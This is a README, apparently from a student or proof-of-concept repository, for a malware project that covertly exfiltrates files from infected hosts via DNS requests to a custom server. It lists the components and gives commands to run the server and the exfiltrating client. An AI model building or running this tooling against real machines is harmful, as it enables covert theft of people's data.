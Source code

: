 # SwaggyPloop

This project contains the infrastructure for a piece of malware that exfiltrates
data from a computer via DNS requests.
* The `client` folder contains the code for the malware client that searches an
infected host for important files. It then chunks the files into 254 byte blocks
and sends out the chunks to our custom server via a DNS request.
* The `dns` folder contains our own custom fork of the `dnspython` library,
which we use to form the DNS requests on the client side.
* The `dns_server` folder contains our custom DNS server that listens for
incoming requests structured according to our custom request format and logs
them in a database for later reconstruction.
* The `lib` folder contains the code that handles the encoding and packet
structuring to break apart the files for transit as well as the code for
reconstructing them on the server side. This folder also contains utility code
for logging and querying into the database.
* The `web_interface` folder contains a web interface for viewing the data
chunks logged in the database and allows for the reconstructed data to
visualized.

## Setup
This project requires Python `>=3.5`. You may run it in the virtual environment
of your choice.

### Custom DNS Server
```
pip install -r requirements.txt
sudo python dns_server/malware_server.py # sudo is required to use port 53
```

### Exfiltrating a file (proof of concept)
```
pip install -r requirements.txt
python client/malware_client.py <file> [ip address of dns server]
```

## Authors
* Alvin Lin (omgimanerd)
* Stefan Aleksic (ColdSauce)
